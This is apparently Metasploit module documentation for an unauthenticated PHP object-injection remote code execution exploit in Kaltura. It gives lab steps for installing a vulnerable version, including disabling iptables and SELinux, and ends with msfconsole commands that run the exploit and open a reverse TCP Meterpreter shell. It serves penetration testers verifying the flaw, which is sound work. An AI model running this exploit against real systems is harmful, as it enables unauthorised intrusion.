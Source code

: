 ## Vulnerable Application

This module exploits a Object Injection vulnerability in Kaltura. By exploiting this vulnerability, unauthenticated users can execute arbitrary code under the context of the web server user.

Kaltura has a module named keditorservices that takes user input and then use it as an unserialize function parameter. The object constructed is based on the SektionEins Zend code execution POP chain PoC, with a minor modification to ensure Kaltura processes it and the Zend_Log function's __destruct() method is called. Kaltura prior to 11.1.0-2 versions are affected by issue.

**Vulnerable Application Installation Steps**

Kaltura has their own RPM and/or DEB packages to helps us to install it without any issue. Following steps are slightly different than official wiki in order to install vulnerable packages.

Following steps are valid CentOS 6 x64 bit operating system.

1. Install CentOS-6 x64 and run `yum update -y` in order to fetch and install latests packages. Also set hostname something like _kalturahack.dev_ would be wise. Because it will be used during Kaltura installation.
2. Disable iptables and selinux. 
```
iptables -F
service iptables stop
chkconfig iptables off
setenforce permissive
(selinux will be enabled on reboot unless editing /etc/selinux/config file.)
```
3. Install following pre-requisites.
* PHP 5.3.n, 5.4.n, 5.5.n, 5.6.n [the official distro repo version]
* MySQL/MariaDB [the official distro repo version]. Please make sure your MySQL is configured not to enforce strict mode.
* JRE 1.7.n (openjdk can be used)

4. Install Kaltura yum repo.
```
rpm -ihv http://installrepo.kaltura.org/releases/kaltura-release.noarch.rpm
```

5. Kaltura repo configures for latest version by default. We need to change it to one of the vulnerable release. Thus, open `/etc/yum.repos.d/kaltura.repo` file with your favorite text editor and perform following replacement.

Original file. (# lines just ignored)
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```
After changes.
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```

6. Install kaltura-server. This will take for a while. 
```
yum clean all
yum install kaltura-server
```

7. Run following commands in order to initiate database and start necessary services.
```
/opt/kaltura/bin/kaltura-mysql-settings.sh
service memcached restart
service ntpd restart
chkconfig memcached on
chkconfig ntpd on
```

8. Start kaltura configuration script `/opt/kaltura/bin/kaltura-config-all.sh` .

```
[Email\NO]: "<your email address>"
CDN hostname [kalrpm.lcl]: "<your hostname>"
Apache virtual hostname [kalrpm.lcl]: "<your hostname>"
Which port will this Vhost listen on [80]?:

DB hostname [127.0.0.1]: "<127.0.0.1>"
DB port [3306]: "<3306>"
MySQL super user [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<root>"
MySQL super user passwd [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<your root password>"
Analytics DB hostname [127.0.0.1]: "<127.0.0.1>"
Analytics DB port [3306]: "<3306>"
Sphinx hostname [127.0.0.1]: "<127.0.0.1>"

Secondary Sphinx hostname: [leave empty if none] "<empty>"

VOD packager hostname [kalrpm.lcl]: "<http://kaltura-nginx-hostname>"

VOD packager port to listen on [88]: 

Service URL [http://kalrpm.lcl:80]: "<http://apache-hostname:80>"

Kaltura Admin user (email address): "<your email address>"
Admin user login password (must be minimum 8 chars and include at least one of each: upper-case, lower-case, number and a special character): "<your kaltura admin password>"
Confirm passwd: "<your kaltura admin password>"

Your time zone [see http://php.net/date.timezone], or press enter for [Europe/Amsterdam]: "<your timezone>"
How would you like to name your system (this name will show as the From field in emails sent by the system) [Kaltura Video Platform]? "<your preferred system name>"
Your website Contact Us URL [http://corp.kaltura.com/company/contact-us]: "<your contact URL>"
'Contact us' phone number [+1 800 871 5224]? "<your phone numer>"

Is your Apache working with SSL?[Y/n] "<n>"
It is recommended that you do work using HTTPs. Would you like to continue anyway?[N/y] "<y>"
Which port will this Vhost listen on? [80] "<80>"
Please select one of the following options [0]: "<0>"
```

I do recommend that leaving all default values as is except SSL. You may want to install Kaltura without SSL support.

These steps are slightly different than following instruction.
[http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/](http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/)

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/unix/webapp/kaltura_unserialize_rce 
msf exploit(kaltura_unserialize_rce) > set RHOST centoshacker.dev
RHOST => centoshacker.dev
msf exploit(kaltura_unserialize_rce) > check
[+] centoshacker.dev:80 The target is vulnerable.
msf exploit(kaltura_unserialize_rce) > exploit 

[*] Started reverse TCP handler on 10.0.0.1:4444 
[*] Sending stage (33721 bytes) to 10.0.0.134
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.134:50312) at 2016-09-17 22:56:44 +0300

meterpreter > pwd
/opt/kaltura/app/alpha/web
meterpreter >
```
